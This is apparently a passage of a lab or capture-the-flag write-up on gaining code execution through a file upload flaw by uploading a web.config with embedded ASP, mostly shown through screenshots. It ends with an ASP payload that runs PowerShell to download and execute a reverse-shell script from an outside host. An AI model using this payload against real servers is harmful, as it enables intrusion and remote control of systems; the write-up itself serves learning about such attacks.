 ### For this attack is important to find the extension that the server will accept. 
### It's with the length of the answer that I find the right extension.

![2](https://user-images.githubusercontent.com/123066149/220445721-12856fa5-e575-4748-a557-29699d739e19.PNG)

### After a little google search there are poc to get to a code execution :

![image](https://user-images.githubusercontent.com/123066149/220451259-7825fcf6-ea3f-4cfa-b8d8-73b249363af7.png)

### I used this code to try a RCE

https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

![image](https://user-images.githubusercontent.com/123066149/220451505-f2b8f383-ce2f-4ce5-be05-78bc5fd4bdc9.png)

![image](https://user-images.githubusercontent.com/123066149/220451628-36d207ce-e846-4ae6-8ec3-81c363893f38.png)

### I send the requests via burp 

![3](https://user-images.githubusercontent.com/123066149/220452408-7c694ce9-90d2-4ed8-a37e-c3764b386dc9.PNG)

![4](https://user-images.githubusercontent.com/123066149/220452416-ef897977-6cd4-4e3a-b9c0-8a9224029ef0.PNG)

### The number 15 is there so there is a code execution now I have to change the ASP code :
### I use the code of the web.aspx console and I test the code execution on my computer with the ping command :

``cat web.aspx``

![image](https://user-images.githubusercontent.com/123066149/220453123-12652682-7e90-40c2-a123-6101beb1cf30.png)

![5](https://user-images.githubusercontent.com/123066149/220457118-3740aaee-d196-4c38-8d9d-094bd45befb3.PNG)

![6](https://user-images.githubusercontent.com/123066149/220457157-ef6027ee-106f-447a-8f5b-6e0bead9e242.PNG)

![image](https://user-images.githubusercontent.com/123066149/220456517-e4e8fe26-5504-4111-acd1-d96f20dfbe39.png)

### Now I have to adapt the payload :

``<%``

``Set s = CreateObject("WScript.Shell")``

``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``
